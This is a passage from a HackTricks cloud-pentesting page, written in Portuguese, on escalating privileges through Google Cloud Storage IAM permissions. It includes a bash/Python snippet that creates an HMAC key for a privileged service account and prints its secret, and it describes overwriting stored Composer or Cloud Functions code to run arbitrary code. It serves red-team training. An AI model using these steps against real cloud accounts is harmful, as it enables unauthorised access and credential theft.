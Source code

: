 # GCP - Storage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Storage

Informações Básicas:

{% content-ref url="../gcp-services/gcp-storage-enum.md" %}
[gcp-storage-enum.md](../gcp-services/gcp-storage-enum.md)
{% endcontent-ref %}

### `storage.objects.get`

Esta permissão permite que você **baixe arquivos armazenados no Cloud Storage**. Isso pode potencialmente permitir que você escale privilégios porque em algumas ocasiões **informações sensíveis são salvas lá**. Além disso, alguns serviços do GCP armazenam suas informações em buckets:

* **GCP Composer**: Quando você cria um Ambiente Composer, o **código de todos os DAGs** será salvo dentro de um **bucket**. Essas tarefas podem conter informações interessantes dentro de seu código.
* **GCR (Container Registry)**: A **imagem** dos contêineres é armazenada dentro de **buckets**, o que significa que se você puder ler os buckets, poderá baixar as imagens e **procurar por leaks e/ou código fonte**.

### `storage.objects.setIamPolicy`

Você pode se dar permissão para **abusar de qualquer um dos cenários anteriores desta seção**.

### **`storage.buckets.setIamPolicy`**

Para um exemplo de como modificar permissões com esta permissão, consulte esta página:

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md" %}
[gcp-public-buckets-privilege-escalation.md](../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md)
{% endcontent-ref %}

### `storage.hmacKeys.create`

O recurso de "interoperabilidade" do Cloud Storage, projetado para **interações entre nuvens** como com o AWS S3, envolve a **criação de chaves HMAC para Contas de Serviço e usuários**. Um atacante pode explorar isso **gerando uma chave HMAC para uma Conta de Serviço com privilégios elevados**, assim **escalando privilégios dentro do Cloud Storage**. Enquanto as chaves HMAC associadas a usuários só podem ser recuperadas via console da web, tanto as chaves de acesso quanto as secretas permanecem **perpetuamente acessíveis**, permitindo um potencial armazenamento de acesso de backup. Por outro lado, as chaves HMAC vinculadas a Contas de Serviço são acessíveis via API, mas suas chaves de acesso e secretas não podem ser recuperadas após a criação, adicionando uma camada de complexidade para acesso contínuo.

{% code overflow="wrap" %}
```bash
# Create key
gsutil hmac create <sa-email> # You might need to execute this inside a VM instance

## If you have TROUBLES creating the HMAC key this was you can also do it contacting the API directly:
PROJECT_ID = '$PROJECT_ID'
TARGET_SERVICE_ACCOUNT = f"exam-storage-sa-read-flag-3@{PROJECT_ID}.iam.gserviceaccount.com"
ACCESS_TOKEN = "$CLOUDSDK_AUTH_ACCESS_TOKEN"
import requests
import json
key = requests.post(
f'https://www.googleapis.com/storage/v1/projects/{PROJECT_ID}/hmacKeys',
params={'access_token': ACCESS_TOKEN, 'serviceAccountEmail': TARGET_SERVICE_ACCOUNT}
).json()
#print(json.dumps(key, indent=4))
print(f'ID: {key["metadata"]["accessId"]}')
print(f'Secret: {key["secret"]}')


# Configure gsutil to use the HMAC key
gcloud config set pass_credentials_to_gsutil false
gsutil config -a

# Use it
gsutil ls gs://[BUCKET_NAME]

# Restore
gcloud config set pass_credentials_to_gsutil true
```
{% endcode %}

Outro script de exploração para este método pode ser encontrado [aqui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/storage.hmacKeys.create.py).

## `storage.objects.create`, `storage.objects.delete` = Permissões de gravação em Storage

Para **criar um novo objeto** dentro de um bucket, você precisa de `storage.objects.create` e, de acordo com [a documentação](https://cloud.google.com/storage/docs/access-control/iam-permissions#object\_permissions), você também precisa de `storage.objects.delete` para **modificar** um objeto existente.

Uma **exploração muito comum** de buckets onde você pode escrever na nuvem é no caso de o **bucket estar salvando arquivos de servidor web**, você pode ser capaz de **armazenar novo código** que será usado pela aplicação web.

### Composer

**Composer** é **Apache Airflow** gerenciado dentro do GCP. Ele possui várias características interessantes:

* Ele roda dentro de um **cluster GKE**, então o **SA que o cluster usa é acessível** pelo código que está rodando dentro do Composer
* Ele armazena o **código em um bucket**, portanto, **qualquer um com acesso de gravação sobre esse bucket** poderá mudar/adicionar um código DGA (o código que o Apache Airflow executará)\
Então, se você tiver **acesso de gravação sobre o bucket que o Composer está usando** para armazenar o código, você pode **privesc para o SA rodando no cluster GKE**.

### Cloud Functions

* O código do Cloud Functions é armazenado no Storage, então **sobrescrevendo-o, é possível executar código arbitrário**.

### App Engine

* O código-fonte do App Engine é armazenado em buckets, **sobrescrevendo o código, pode ser possível executar código arbitrário. ISSO NÃO É POSSÍVEL**
* **Parece que as camadas do contêiner estão armazenadas no bucket, talvez mudando isso?**

### GCR

* **Google Container Registry** armazena as imagens dentro de buckets, se você puder **escrever nesses buckets**, pode ser capaz de **mover lateralmente para onde esses buckets estão sendo executados.**
* O bucket usado pelo GCR terá uma URL semelhante a `gs://<eu/usa/asia/nothing>.artifacts.<project>.appspot.com` (Os subdomínios de nível superior são especificados [aqui](https://cloud.google.com/container-registry/docs/pushing-and-pulling)).

## **Referências**

* [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/#:\~:text=apiKeys.-,create,privileges%20than%20our%20own%20user.](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
